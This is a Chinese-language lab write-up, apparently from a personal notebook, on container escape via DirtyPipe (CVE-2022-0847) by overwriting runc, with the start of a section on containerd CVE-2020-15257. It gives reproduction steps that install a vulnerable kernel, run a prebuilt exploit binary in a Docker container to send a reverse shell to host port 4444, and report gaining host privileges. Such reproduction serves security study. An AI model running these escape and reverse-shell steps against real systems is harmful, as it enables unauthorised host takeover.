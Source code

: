 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665655793742-71d23b32-09b4-4df6-a452-04f8074145a6.png)

## DityPipe（<font style="color:rgb(34, 34, 34);">CVE-2022-0847） 覆盖Runc</font>
<font style="color:rgb(36, 41, 47);">漏洞点是在 splice 系统调用中未清空 pipe_buffer 的标志位，从而将管道页面可写入的状态保留了下来，这给了我们越权写入只读文件的操作。</font>

<font style="color:rgb(36, 41, 47);">攻击者利用该漏洞可以覆盖任意只读文件中的数据，这样将普通的权限提升至root权限。</font>

> <font style="color:rgb(85, 85, 85);">影响版本：</font>
>
> <font style="color:rgb(85, 85, 85);">Linux Kernel版本 >= 5.8</font>
>
> <font style="color:rgb(85, 85, 85);">Linux Kernel版本 < 5.16.11 / 5.15.25 / 5.10.102</font>
>

```plain
#为了复现，使用metarget安装指定内核，并重新启动
git clone https://github.com/brant-ruan/metarget.git 
cd metarget/pip3 install -r requirements.txt
./metarget gadget install kernel --version 5.11.0
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1666803294743-fd76e10e-3765-4675-8db4-46564646a1d0.png)

```plain
#test文件为exp，启动docker进入容器中，运行exp反弹shell至宿主机4444端口
docker run -it -v /tmp/test:/tmp/test e0eacd3ee3ed /bin/bash
./test -ip 127.0.0.1 -port 4444
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1666803360998-f5616758-5f6f-49d4-a0aa-47b9d312fd43.png)

```plain
#执行docker exec，再次进入当前容器
docker exec -it 717 /bin/bash
```

## ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1666803395961-733efdad-dce3-4112-a318-c08e8b499dee.png)
```plain
触发payload执行
```

## ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1666803420948-b3f569ec-d905-4678-914f-76c775df6022.png)
逃逸成功，获取宿主机权限

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1666803438867-63ff2ca8-2434-4620-b80a-76e8bdeafe05.png)

## 
## containerd CVE-2020-15257
<font style="color:rgb(36, 41, 47);">当容器和宿主机共享一个 net namespace 时（如使用 --net=host 或者 Kubernetes 设置 pod container 的 .spec.hostNetwork 为 true）攻击者可对拥有特权的 containerd shim API 进行操作，可能导致容器逃逸获取主机权限、修改主机文件等危害</font>
